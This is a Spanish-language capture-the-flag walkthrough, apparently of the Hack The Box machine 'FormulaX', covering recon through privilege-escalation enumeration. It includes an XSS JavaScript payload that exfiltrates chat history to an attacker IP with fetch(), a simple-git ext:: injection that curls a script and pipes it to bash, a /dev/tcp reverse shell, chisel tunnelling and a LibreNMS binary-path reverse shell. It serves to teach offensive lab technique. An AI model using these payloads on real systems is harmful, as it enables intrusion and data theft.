







**RECON**

**PORTS SCAN**

```ruby
sudo nmap -p- -sS --open --min-rate 5000 -Pn -n -vvv 10.129.188.227 -oG allPorts
[sudo] password for anonimo: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-10 12:55 CET
Initiating SYN Stealth Scan at 12:55
Scanning 10.129.188.227 [65535 ports]
Discovered open port 22/tcp on 10.129.188.227
Discovered open port 80/tcp on 10.129.188.227
Completed SYN Stealth Scan at 12:55, 14.58s elapsed (65535 total ports)
Nmap scan report for 10.129.188.227
Host is up, received user-set (0.11s latency).
Scanned at 2024-03-10 12:55:40 CET for 15s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 14.72 seconds
           Raw packets sent: 72314 (3.182MB) | Rcvd: 71754 (2.870MB)
```

**SERVICE AND VERSION SCAN**

```ruby

❯ sudo nmap -p22,80 -sCV 10.129.188.227 -oN target
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-10 12:58 CET
Nmap scan report for 10.129.188.227
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 5f:b2:cd:54:e4:47:d1:0e:9e:81:35:92:3c:d6:a3:cb (ECDSA)
|_  256 b9:f0:0d:dc:05:7b:fa:fb:91:e6:d0:b4:59:e6:db:88 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-cors: GET POST
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was /static/index.html
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.95 seconds

```

Nada Inusual hmm.... Como podemos ver, tenemos el puerto 80 abierto, en este caso corresponde hacer la revisión de lo que está publicado en dicho puerto.
Nos redirige a un formulario login con opcion de registrarnos:


Por encima ver que tenemos la capacidad de interactur con un bot...


Al parecer el serivicio no esta activo pero aun asi podemos ejecutar el comando "help" el cual nos muestra los comandos activos:
```"history -- Shows the Previous Sent"```


Parece interesante pero vamos a continuar con la enumeracion...


Hmm un formulario, vamos a ver si realmente hace algo por detras.


Ouu...Parece vulnerable a xss, interesante sigamos enumerando:


Parece que la cookie es una API key para sean mas seguras las peticiones con la API...

```json
{
"alg":"HS256",
"typ":"JWT"
}
{
"userID"=:"65eda379658edff97d460d42",
"iat":1710072703
}
```

Si seguimos enumerando podemos ver que hay un archivo chat.js, en este podemos ver que esta haciendo conexiones socket para conectarse a los chats. hmm..
Espera.. y si utilizamos las funciones para ver chats de otros ususarios?

Si hacemos cremos este archivo .js utilizando las funciones podriamos redirigir los mensages puede que nos de algo, vamos a probarlo:

```javascript
let value;
const res = axios.get(`/user/api/chat`);
const socket = io('/',{withCredentials: true});

const typing_chat_2 = () => {
  value = "history"
  if (value) {
    // sending the  messages to the server
    socket.emit('client_message', value)
    Show_messages_on_screen_of_Client(value);
    // here we will do out socket things..
    document.getElementById('user_message').value = ""
  }
  else {
    alert("Cannot send Empty Messages");
  }
}

socket.on('message', (my_message) => {

  //console.log("Received From Server: " + my_message)
  fetch("http://10.10.14.25/?" + my_message );

})

typing_chat_2()

```

Vamoss..Tenemos lo que parece el historial de algun chat!!


```
"OPTIONS /?Hello, I am Admin.Testing the Chat Application HTTP/1.1" 200 -
"OPTIONS /?Write a script for  dev-git-auto-update.chatbot.htb to work properly HTTP/1.1" 200 -
"OPTIONS /?Write a script to automate the auto-update
```
Un subdominio? eso parece.. vamos a echar un vistazo

Primero lo añadimos al /etc/hosts:
```ruby
❯ cat /etc/hosts | head -n 3
127.0.0.1       localhost
127.0.1.1       kali
10.129.188.227 dev-git-auto-update.chatbot.htb
```
Podemos ver que esta utilizando el software de simple-git hmm... Vamos a ver como funciona por detras. 

```Made with ❤ by Chatbot🤖 Using simple-git v3.14```


Buscando un poco he podido encontrar un recurso que podria ser de ayuda:
[https://security.snyk.io/vuln/SNYK-JS-SIMPLEGIT-3112221](https://security.snyk.io/vuln/SNYK-JS-SIMPLEGIT-3112221)

Vamos a probar a hacer una reverse shell:

Payload

``` ext::sh -c curl% http://10.10.14.25:9000/shell.sh|bash >&2 ```

Reverse shell file

```
       │ File: shell.sh
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ bash -i >& /dev/tcp/10.10.14.X/4444 0>&1
```

Abre un http server con python y manda el payload.

```ruby
❯ python3 -m http.server 9000
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
10.129.188.227 - - [10/Mar/2024 14:21:55] "GET /shell.sh HTTP/1.1" 200 -
```

Perfecto ya tenemos una shell!



Lo siguiente que podemos hacer es enumerar todo con linpeas o manualmente.

Si entramos en el siguiente directorio veremos un script que parece ser para una BD de mongoDB esto nos esta dando ya pistas de lo que podemos encontrar.

```ruby
www-data@formulax:~/automation$ cat db_script.sh 
#! /bin/bash
echo "db.users.remove({value:false})" | mongo testing --quiet
www-data@formulax:~/automation$ 
```
Si utilizamos la base de datos podemos listar las tablas y el contenido:



**USER FLAG**

Hmm solo se pudo crackear el usuario frank, vamos a autenticarnos con ssh:



Si enumeramos bien podemos ver diferentes cosas que no son normales:
```ruby
frank_dorky@formulax:~$ ss -tulpn | grep 3000
tcp   LISTEN 0      511        127.0.0.1:3000       0.0.0.0:* 
```
si hacemos curl podemos ver que es un login de un servicio "librenms":
```ruby
frank_dorky@formulax:~$ curl http://localhost:3000
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <meta http-equiv="refresh" content="0;url='http://localhost:3000/login'" />

        <title>Redirecting to http://localhost:3000/login</title>
    </head>
    <body>
        Redirecting to <a href="http://localhost:3000/login">http://localhost:3000/login</a>.
    </body>
</html>
```
Hmm al tenerlo en localhost tendremos que hacer portforwarding para que podamos ver la interfaz WEB:

Para esto utilizaremos chisel:

```ruby
❯ ./chisel server --reverse -p 8000
2024/03/10 15:05:51 server: Reverse tunnelling enabled
2024/03/10 15:05:51 server: Fingerprint IwcXlLjjhGRFEtdQCwjX1NjTnAFDhlvdmNs2jKKj4BU=
2024/03/10 15:05:51 server: Listening on http://0.0.0.0:8000
2024/03/10 15:05:58 server: session#1: tun: proxy#R:3000=>3000: Listening
```
```ruby
frank_dorky@formulax:~$ ./chisel client 10.10.14.25:8000 R:3000:127.0.0.1:3000
2024/03/10 14:06:01 client: Connecting to ws://10.10.14.25:8000
2024/03/10 14:06:02 client: Connected (Latency 103.900738ms)
```

Ahora ya podemos acceder con nustro localhost:3000.


Tras intentos de usuarios y contraseñas he encontrado un recurso donde explican como crear usuarios como admin:

[https://community.librenms.org/t/adding-admin-users-on-librenms/20782](https://community.librenms.org/t/adding-admin-users-on-librenms/20782)

Vamos a probarlo:

```ruby
frank_dorky@formulax:/opt/librenms$ /opt/librenms/adduser.php test 1234 10
User test added successfully
frank_dorky@formulax:/opt/librenms$ 
```
Perfecto tenemos login!!



Tras mirar un poco todo he encontrado en global settings los paths de los binarios, si modificamos estos por un revershell tendriamos que tener una shell inversa.



Tras darle a validar configuracion se te dara una reverse shell.

```ruby
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.25] from (UNKNOWN) [10.129.188.227] 33846
bash: cannot set terminal process group (937): Inappropriate ioctl for device
bash: no job control in this shell
librenms@formulax:~/html$ 
```

Vamos tenemos las credenciales del usuario kai!



Si nos autentificamos con kai podemos ver que puede ejecutar un script como sudo:
```ruby
kai_relay@formulax:~$ sudo -l
Matching Defaults entries for kai_relay on forumlax:
    env_reset, timestamp_timeout=0, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, env_reset, timestamp_timeout=0

User kai_relay may run the following commands on forumlax:
    (ALL) NOPASSWD: /usr/bin/office.sh
kai_relay@formulax:~$ 
```

